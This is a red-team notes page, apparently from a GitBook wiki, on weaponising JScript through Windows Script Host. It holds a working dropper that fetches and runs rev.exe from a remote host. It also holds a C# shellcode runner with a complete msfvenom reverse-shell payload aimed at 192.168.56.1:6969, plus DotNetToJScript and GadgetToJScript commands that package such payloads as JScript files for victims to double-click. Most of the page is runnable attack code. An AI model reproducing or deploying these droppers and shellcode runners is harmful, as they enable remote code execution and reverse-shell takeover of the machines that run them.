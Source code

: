 # ⭕ JScript

## <mark style="color:red;">WSH</mark>

VBScript and Jscript are executed by the windows script host. they run by the windows scripting host (WSH). they run as a console application (cscript.exe) or a GUI app (wscript.exe). the engines are not implemented in wscript.exe or cscript.exe. but in vbscript.dll and jscript.dll. these are both activeX DLLs which contain activeX objects.

## <mark style="color:red;">Simple Dropper</mark>

```vba
var url = "http://192.168.56.1/rev.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');
Object.Open('GET', url, false);
Object.Send();
if (Object.Status == 200)
{
	var Stream = WScript.CreateObject('ADODB.Stream');
	Stream.Open();
	Stream.Type = 1;
	Stream.Write(Object.ResponseBody);
	Stream.Position = 0;

	Stream.SaveToFile("rev.exe", 2);
	Stream.Close();
}
var r = new ActiveXObject("WScript.Shell").Run("rev.exe");
```

## <mark style="color:red;">DotNetToJScript</mark>

{% embed url="https://github.com/tyranid/DotNetToJScript" %}

{% embed url="https://www.whiteoaksecurity.com/blog/2020-1-16-advanced-ttps-dotnettojscript-part-1" %}

A tool for generating a JScript which bootstraps an arbitrary .NET Assembly and class. this can be used to create advanced and complicated jscript payloads from a C# source code.

#### Open the project in visual studio, the `TestClass.cs`   will hold our custom C# payload for example a shellcode runner:

{% code title="TestClass.cs" %}
```csharp
//    This file is part of DotNetToJScript.
//    Copyright (C) James Forshaw 2017
//
//    DotNetToJScript is free software: you can redistribute it and/or modify
//    it under the terms of the GNU General Public License as published by
//    the Free Software Foundation, either version 3 of the License, or
//    (at your option) any later version.
//
//    DotNetToJScript is distributed in the hope that it will be useful,
//    but WITHOUT ANY WARRANTY; without even the implied warranty of
//    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
//    GNU General Public License for more details.
//
//    You should have received a copy of the GNU General Public License
//    along with DotNetToJScript.  If not, see <http://www.gnu.org/licenses/>.

using System;
using System.Diagnostics;
using System.Runtime.InteropServices;


[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint
flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
    IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32
    dwMilliseconds);

        public TestClass()
        {
            // msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=6969 exitfunc=thread  -f csharp -a x64
            byte[] buf = new byte[460] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,
0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,
0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x1b,0x39,0xc0,0xa8,0x38,0x01,0x41,0x54,
0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,
0x89,0xea,0x68,0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,
0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,
0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x48,
0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,
0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x02,0x00,0x00,0x49,0xb8,0x63,
0x6d,0x64,0x00,0x00,0x00,0x00,0x00,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,
0x57,0x57,0x4d,0x31,0xc0,0x6a,0x0d,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,
0x24,0x54,0x01,0x01,0x48,0x8d,0x44,0x24,0x18,0xc6,0x00,0x68,0x48,0x89,0xe6,
0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,
0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,
0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0x0e,0x41,0xba,0x08,0x87,0x1d,0x60,0xff,
0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,
0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5 };
            int size = buf.Length;
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, addr, size);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }

```
{% endcode %}

{% hint style="info" %}
The payload should be placed inside the `TestClass` class and replace the default content of the class.&#x20;
{% endhint %}

#### after replacing the payload, we need to change the architecture for which we want to build the `ExampleAssembly`   project inside the solution:

![](<../../.gitbook/assets/image (33) (1).png>)

#### set the architecture in the new window (same as the payload architecture):

![](<../../.gitbook/assets/image (29) (1).png>)

![](<../../.gitbook/assets/image (48) (1).png>)

![](<../../.gitbook/assets/image (24).png>)

![](<../../.gitbook/assets/image (31).png>)

after building the solution, copy the `ExampleAssembly.dll,` `NDesk.Options.dll` and `DotNetToJScript.exe` files in the same folder and run the following command to create a new jscript payload:

```
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js
```

when the victim double clicks the jscript file, the shellcode will be executed.

## <mark style="color:red;">GadgetToJScript</mark>

{% embed url="https://github.com/med0x2e/GadgetToJScript" %}

```csharp
#Create a constructor. Save as source.cs

using System;
using System.Diagnostics;

public class Same
 { 
  public Same()
   {
    Process.Start("calc.exe");
   }
 }
```

```
GadgetToJScript.exe -i source.cs -w js -r <Reference assembly> -o out.txt -f
```
